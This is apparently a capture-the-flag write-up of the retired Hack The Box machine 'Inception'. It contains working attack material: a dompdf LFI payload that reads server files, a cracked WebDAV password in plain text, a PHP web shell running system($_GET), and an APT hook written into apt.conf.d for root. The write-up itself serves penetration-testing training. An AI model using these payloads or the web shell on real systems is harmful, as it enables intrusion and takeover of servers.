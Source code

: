 # Inception - Medium  - Retired

### Initial enumeration

When we first fire nmap we can see only two ports open: 80(web) and 3128(proxy). At first it seems a lot like a newer box, Unbalanced. I tried to access web and it was a  simple page, that let you input the email. 

I've fired up ffuf with `ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -u http://10.10.10.67/FUZZ` in order to look for other directories. An it had a hit.  
```________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.67/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
assets                  [Status: 301, Size: 311, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
dompdf                  [Status: 301, Size: 311, Words: 20, Lines: 10]
:: Progress: [62283/62283] :: Job [1/1] :: 700 req/sec :: Duration: [0:01:35] :: Errors: 3 ::
```
As you can see `/dompdf` is something that isn't linked. Here we encounter some missconfiguration and we get access to all files from this directory. If we look at the `VERSION` file we get that on the box is running `dompdf 0.6.0` which has a LFI CVE assigned to it on [exploit-db](https://www.exploit-db.com/exploits/33004).

### Discovering another service

At this point we need to exploit a blind LFI. Well, I've looked over /etc/passwd and it was only one user, and then I've searched for the apache2 config on my local kali machine. This was the final link `10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/apache2/sites-enabled/000-default.conf`.
After I've decoded it from base64 I saw that there is another directory `/webdav_test_inception` that's password protected, with the file that containes the password located at `/var/www/html/webdav_test_inception/webdav.passwd`. Now we can download  this one too and run john against the hash. The output was `webdav_tester:babygurl69`.

### Getting the foothold

From a brief google search it seems that webdav is an apache service. Well this time we aren't lucky anymore to say that we can see all the files from the directory. But I've found an article that explains [how to interact with webdav using curl](https://www.qed42.com/blog/using-curl-commands-webdav). First I tried to see if we can upload files  so I've just put a `<?php echo "Hello World"; ?>`  inside a file and uploaded with `curl -T './testUpload.php' -u webdav_tester:babygurl69 http://10.10.10.67/webdav_test_inception/`.

Next I've tried to upload some reverse shells but they were all blocked by firewalls I guess and I've switched to a more clasical approach, using `system` and `$_GET`. If you are curious this is the script:
```php
<?php
    if(isset($_GET['we']))
    {
        echo "Command execution: <br>";
        echo "<pre>";
        system($_GET['we']);
        echo "</pre>";
    }
?>
```
Alright now that we have access to all UNIX commands I've started looking around. In the `/var/www/html` there is a folder called `wordpress_4.8.3`. Here we can find the `wp-config.php` file which might have some credetials, but unfortunately I couldn't use `cat` against it. So I've switched back to dompdf and retrieved it. Our guess was right. There is a password for the so called `database`. Well we can now try to shh into the box.

### Are we cobb?

I said ssh? Nope the port is close? Well if we do `netstat -tulpn |grep LISTEN` it seems that port 22 is open, but it's mapped for 0.0.0.0. So this should mean that we have to use the proxy. 
```java
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 :::3128                 :::*                    LISTEN      -      
```
For this we can add `http 10.10.10.67 3128` at the end of to proxychains config and then just run `proxychains ssh cobb@127.0.0.1`. We are in as cobb now :D

### Root isn't root

If we do a `sudo -l` and pass the password it seems that we have full sudo access. So we do `sudo su` and that's it. Well... no. We are root but inside `root.txt` there is a  hint towards next step.
```bash
root@Inception:~# cat root.txt
You're waiting for a train. A train that will take you far away. Wake up to find root.txt.
```
Well this is a clear hint towards a cronjob. But what cronjob? On this box there is nothing.
I tried to look for other machines that maybe are linked to this proxy, and I saw something weird. We are `192.168.0.10` not `192.168.0.1` or something similar. I fast checked if there are any routes on this with `route -n` and there was another gatway for `192.168.0.1`
```bash
root@Inception:~# route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         192.168.0.1     0.0.0.0         UG    0      0        0 eth0
192.168.0.0     0.0.0.0         255.255.255.0   U     0      0        0 eth0
```

### Actual root

I've uploaded a portable version of nmap to see with what ports we are dealing with. An there were only 3: 21(ftp), 22(ssh), 53(dns).  Well because I like to go in an ascending order I've decied to start with 21. 
Anonymous login was enabled, with the chroot at `/` so we had acess to almost all files. First I've downloaded `/etc/passwd` and saw that ftp and tftp are user, which seemed a bit odd. From a quick google search TFTP seeems to be a service that allows a client to get or put files onto a remote host. So this means there is no permission check?

At this point I've decided to leave TFTP for a while an look into the crontab file. Here we have an interesting line
```bash
*/5 *	* * *	root	apt update 2>&1 >/var/log/apt/custom.log
``` 
It seems that root updates the system every 5 minutes. So I guess that we can hijack this with a script that runs before/after the update. I got lucky to find an article that explains [how to hook  a script to apt upgrade](https://www.cyberciti.biz/faq/debian-ubuntu-linux-hook-a-script-command-to-apt-get-upgrade-command/). This are the steps that I did to get root
- I've generated a key with `ssh-keygen` and saved under `/root/.ssh/id_rsa`
- Got into tftp and placed the `id_rsa.pub` as `authorized_keys` but it had permissions to wide
- I've created a script with `echo 'APT::Update::Pre-Invoke  {"chmod 600 /root/.ssh/authorized_keys";};' > zapwn` that updates permissions for authorized_keys
- Upload this using tftp under at `/etc/apt/apt.conf.d/rootpwn`, again using tftp
Finally I had to wait around 1/2 minutes and I was  able to ssh into the `192.168.0.1`. 

Pwned :D